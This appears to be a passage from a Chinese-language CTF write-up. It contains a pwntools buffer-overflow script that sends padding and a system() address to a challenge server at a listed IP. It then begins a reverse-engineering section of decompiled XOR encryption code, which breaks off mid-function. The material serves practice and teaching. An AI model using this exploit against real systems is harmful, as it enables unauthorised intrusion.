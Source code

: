 ![image-20191117212904694](img/image-20191117212904694.png)

```python
from pwn import *  # 引入pwntools库
import time

sh = remote('49.235.243.206', 9001)  # 创建与靶场服务器的连接

offset = 0x60+0x8  # 偏移
system_addr = 0x400766  # system函数地址
for i in range(4, 20):
    sh.recvuntil('Please input your passworld size')
    sh.sendline(p64(i))  # 向程序发送数据
    sh.recvuntil('Please input your password')
    payload = offset * b'a' + p64(system_addr)  # 构造攻击数据
    sh.sendline(payload)  # 向程序发送数据
    sh.interactive()  # 将控制流从程序转移到自己这里

```

完了不会写，嘤嘤嘤



## medium_rev

```python
#!/usr/bin/env python
# encoding: utf-8
# 如果觉得不错，可以推荐给你的朋友！http://tool.lu/pyc

def encrypt_for_each():
    index = [
        0] * 100
    for i in range(100):
        tmp = i ^ 77
        yield tmp
        None
    


def encrypt(msg, key):
    iters = encrypt_for_each()
    enc = []
    for (m, k) in zip(msg, key):
        e = m ^ k ^ iters.__next__()
        enc.append(e)
    
    return enc


def generate_key():
    
    def check_prime(num):
        if num < 2:
            return False
        for i in range(2, num):
            if num % i == 0:
                return False
        return True
```